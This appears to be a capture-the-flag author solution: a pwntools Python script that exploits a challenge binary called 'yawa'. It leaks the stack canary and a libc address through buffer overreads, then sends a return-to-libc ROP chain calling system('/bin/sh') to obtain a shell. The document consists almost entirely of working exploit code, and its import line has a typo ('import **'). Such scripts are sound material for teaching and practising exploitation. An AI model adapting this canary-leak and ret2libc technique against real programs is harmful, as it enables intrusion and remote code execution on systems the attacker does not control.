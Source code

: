 #author-solution

```
from pwn import **
context.log_level = 'debug'
if os.getenv('RUNNING_IN_DOCKER'):
    context.terminal = ['/usr/bin/tmux', 'splitw', '-h', '-p', '75']
else:
    gdb.binary = lambda: 'gef'
    context.terminal = ['alacritty', '-e', 'zsh', '-c']

sla  = lambda r, s: conn.sendlineafter(r, s)
sl   = lambda    s: conn.sendline(s)
sa   = lambda r, s: conn.sendafter(r, s)
se   = lambda s: conn.send(s)
ru   = lambda r, **kwargs: conn.recvuntil(r, **kwargs)
rl   = lambda : conn.recvline()
uu32 = lambda d: u32(d.ljust(4, b'\x00'))
uu64 = lambda d: u64(d.ljust(8, b'\x00'))

exe = ELF("./yawa_patched")
libc = ELF("./libc.so.6")

# conn = process([exe.path])
conn = remote('0.0.0.0', 1337)

sla(b'> ', b'1')
se(b'x' * 89)
sla(b'> ', b'2')
r = rl()
canary = uu64(r[-9:-2]) << 8
print('canary:', hex(canary))

sla(b'> ', b'1')
se(b'y' * 104)
sla(b'> ', b'2')
r = rl()
libc_base = uu64(r[-7:-1]) - 0x29d90
print('libc:', hex(libc_base))

libc.address = libc_base
ret = libc_base + 0x1bc065
pop_rdi = libc_base + 0x1bbea1
bin_sh = next(libc.search(b'/bin/sh'))
system = libc.symbols['system']

sla(b'> ', b'1')
se(b''.join([
    b'y' * 88,
    p64(canary),
    p64(0),
    p64(ret),
    p64(pop_rdi),
    p64(bin_sh),
    p64(system)
]))
sla(b'> ', b'3')

conn.interactive()
```
